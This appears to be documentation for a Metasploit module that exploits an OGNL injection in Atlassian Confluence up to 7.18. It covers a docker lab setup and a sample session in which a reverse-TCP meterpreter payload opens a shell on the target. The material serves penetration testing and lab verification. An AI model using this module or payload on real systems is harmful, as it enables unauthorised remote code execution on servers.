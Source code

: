 ## Vulnerable Application
This module exploits an OGNL injection in Atlassian Confluence servers. A specially crafted URI can be used to evaluate
an OGNL expression resulting in OS command execution.

Confluence versions up to and including 7.18 are vulnerable to this OGNL injection flaw. For more complete information
on affected and fixed versions, see [CONFSERVER-79000][1].

### Setup

1. Create a new `docker-compose.yml` file with the contents below.
2. Startup the container using `docker-compose up`
3. Navigate to the HTTP service running on port 8090
4. Acquire and provide an evaluation license
5. When prompted, setup a standalone / non-clustered system
6. Configure the database settings
    1. Select "By connection string", then Database URL: `jdbc:postgresql://postgresql:5432/confdb`
    2. Username and password are both `confdb`
7. Setup takes a few minutes
8. When prompted, select "Empty Site"
9. Select "Manage users and groups within Confluence"
10. Create an account, it **will not** be needed for exploitation
11. Once setup has completed select "Start" and set a space name to something

#### Docker Compose File

```
version: '3'

services:
  postgresql:
    image: postgres:11
    environment:
      POSTGRES_DB: confdb
      POSTGRES_USER: confdb
      POSTGRES_PASSWORD: confdb
    ports:
      - '5432:5432'

  confluence-server:
    depends_on:
      - postgresql
    image: atlassian/confluence:7.13.0
    ports:
      - '8090:8090'
      - '8091:8091'
```

## Verification Steps

1. Follow the steps from the Setup section to create a test instance
2. Start msfconsole
3. Run: `use exploit/multi/http/atlassian_confluence_namespace_ognl_injection`
4. Set the `RHOSTS`, `PAYLOAD` and payload-related options
5. Run the module

## Options

## Scenarios

### Confluence 7.13.0 in [Docker]

```
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set RHOSTS 192.168.159.100
RHOSTS => 192.168.159.100
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > check
[+] 192.168.159.100:8090 - The target is vulnerable. Successfully tested OGNL injection.
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Executing cmd/unix/python/meterpreter/reverse_tcp (Unix Command)
[*] Sending stage (40132 bytes) to 192.168.159.100
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.100:42050) at 2022-06-03 17:14:41 -0400

meterpreter > getuid
Server username: confluence
meterpreter > sysinfo
Computer        : 5052c5eebf8a
OS              : Linux 5.15.0-35-generic #36-Ubuntu SMP Sat May 21 02:24:07 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```

[1]: https://jira.atlassian.com/browse/CONFSERVER-79000?src=confmacro
